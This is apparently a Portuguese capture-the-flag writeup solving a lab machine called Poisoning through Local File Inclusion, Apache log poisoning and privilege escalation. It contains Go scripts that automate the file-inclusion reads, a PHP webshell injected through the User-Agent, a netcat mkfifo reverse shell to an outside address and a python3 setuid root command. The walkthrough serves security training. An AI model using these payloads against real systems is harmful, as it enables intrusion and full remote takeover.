 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [march0s1as.github.io](https://march0s1as.github.io/writeups/poisoning.html)

> https://march0s1as.github.io/writeups/

* * *

Eaí, hackers! Bem-vindes a mais um writeup das máquinas da tropa 🥳. Nesta resolução, nós realizaremos a máquina **Poisoning**, onde exploraremos na mesma um **Local File Inclusion** e pegaremos RCE nela através da técnica chamada **Log Poisoning**. Sem mais enrolações, vamos lá!

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu
80/tcp open  http    syn-ack Apache httpd 2.4.29 


```

* * *

### Reconhecimento web. 🔍

Quando nós abrimos a página do site em nosso navegador, nos deparamos com a seguinte interface:

![](https://march0s1as.github.io/writeups/Poisoning%200749356350ea47c69e78814c712333a2/Untitled.png)

Eu passei um bom tempo analisando a página, as requisições, o código-fonte, as libs em javascript .. e nada 🤧. Então, eu decidi utilizar um scan que eu usava há muito tempo e que hoje foi essencial: **Nikto**. Rodando ele, o mesmo achou um **Local File Inclusion**!

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.9.2.11
+ Target Hostname:    10.9.2.11
+ Target Port:        80
+ Start Time:         2021-09-19 23:54:55 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /index.php?page=../../../../../../../../../../etc/passwd: The PHP-Nuke Rocket add-in is vulnerable to file traversal, allowing an attacker to view any file on the host. (probably Rocket, but could be any index.php)


```

A falha consiste quando o back-end confirma a variável que irá puxar o path do arquivo como algo não manipulável, mas na verdade é. Com a não validação do back-end para verificar o path do arquivo, o hacker consegue controlar qual arquivo ele deseja ver desde que tenha privilégio para isso.

Partindo para a prática, vamos tentar ler o arquivo **/etc/passwd** com o parâmetro “**?page=/etc/passwd**”. Vamos ver:

![](https://march0s1as.github.io/writeups/Poisoning%200749356350ea47c69e78814c712333a2/Untitled%201.png)

E, conseguimos 🥵! Pra quem já é de costume nos meus writeups, sabem que eu sempre gosto de criar um scriptzinho pra agilizar a bagunça. Aqui está o meu código:

```
package main
import (
	"fmt"
	"strings"
	"net/http"
	"io/ioutil"
)

func Between(str, starting, ending string) string {
    s := strings.Index(str, starting)
    if s < 0 {
        return ""
    }
    s += len(starting)
    e := strings.Index(str[s:], ending)
    if e < 0 {
        return ""
    }
    return str[s : s+e]
}

func lfi(url string){
	req, err := http.Get(url)
	if err != nil{ panic(err) }

	body, err := ioutil.ReadAll(req.Body)
	if err != nil{ panic(err) }
	fmt.Print(Between(string(body),"<b>","</b>"))
}

func main(){
	for {
		var payload string
		fmt.Println(" ")
		fmt.Print("enjoy :/ ")
		fmt.Scan(&payload)
		site := "http://10.9.2.11/index.php?page=" + payload
		lfi(site)
	}
}


```

Com isso, eu preciso apenas especificar o arquivo que eu quero ler e está feito! 😶‍🌫️

![](https://march0s1as.github.io/writeups/Poisoning%200749356350ea47c69e78814c712333a2/Untitled%202.png)

### LFI to RCE com Log Poisoning. 👽

E agora vamos para o tão falado Remote Code Execution! Pesquisando mais sobre a vulnerabilidade, eu pude encontrar uma lista de path de arquivos que podem gerar um Log Poisoning. Para não testar de um por um, eu desenvolvi mais um script que faça isso por mim.

```
package main
import (
	"os"
	"fmt"
	"bufio"
	"strings"
	"net/http"
	"io/ioutil"
)

func Between(str, starting, ending string) string {
    s := strings.Index(str, starting)
    if s < 0 {
        return ""
    }
    s += len(starting)
    e := strings.Index(str[s:], ending)
    if e < 0 {
        return ""
    }
    return str[s : s+e]
}

func lfi(url string){
	req, err := http.Get(url)
	if err != nil{ panic(err) }

	body, err := ioutil.ReadAll(req.Body)
	if err != nil{ panic(err) }
	fmt.Print(Between(string(body),"<b>","</b>"))
}

func main(){

	file, err := os.Open("poisoning.txt") // especificar o path da wordlist
	 
	if err != nil {
		fmt.Println("falha ao ler arquivo, favor verificar o path.")
	}
 
	scanner := bufio.NewScanner(file)
	scanner.Split(bufio.ScanLines)
	var txtlines []string
 
	for scanner.Scan() {
		txtlines = append(txtlines, scanner.Text())
	}
	 
	file.Close()
 
	for _, eachline := range txtlines {
		fmt.Println(eachline)
		site := fmt.Sprintf("http://10.9.2.11/index.php?page=%s", eachline)
		lfi(site)
	}
}


```

Com isso, pegamos o resultado! 👾

![](https://march0s1as.github.io/writeups/Poisoning%200749356350ea47c69e78814c712333a2/Untitled%203.png)

Vemos que o arquivo **/var/log/apache2/access.log** aparece para nós. Ou seja, nós temos acesso para o mesmo. Com isso, vamos realizar a técnica de **Log Poisoning**. Tal técnica consiste em adicionarmos um código de webshell em nosso **User-Agent**, e posteriormente acessarmos o arquivo de logs com o parâmetro especificado na webshell. Com isso, nós conseguiremos utilizar a nossa webshell com efetividade através do envenenamento dos logs. Vamos ver em prática:

![](https://march0s1as.github.io/writeups/Poisoning%200749356350ea47c69e78814c712333a2/Untitled%204.png)

![](https://march0s1as.github.io/writeups/Poisoning%200749356350ea47c69e78814c712333a2/Untitled%205.png)

```
<?php system($_GET['c']); ?>


```

### Reverse shell! 😈

Agora ficou fácil! Vamos pegar a reverse shell. Para isso, eu utilizei uma reverse em netcat e URL Encode. Aqui está ela:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 1234 >/tmp/f


```

![](https://march0s1as.github.io/writeups/Poisoning%200749356350ea47c69e78814c712333a2/Untitled%206.png)

### Escalação de Privilégios. 📈

Enumerando um pouco a máquina, nos deparamos com um misconfiguration de **capabilities do python 3.6**. Para isso, basta executarmos este comando e pegmaos root:

```
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'


```

![](https://march0s1as.github.io/writeups/Poisoning%200749356350ea47c69e78814c712333a2/Untitled%207.png)

[Meus writeups.](https://www.notion.so/Meus-writeups-d30b3cfa2b3b4eaa93eff0967ffa17ce)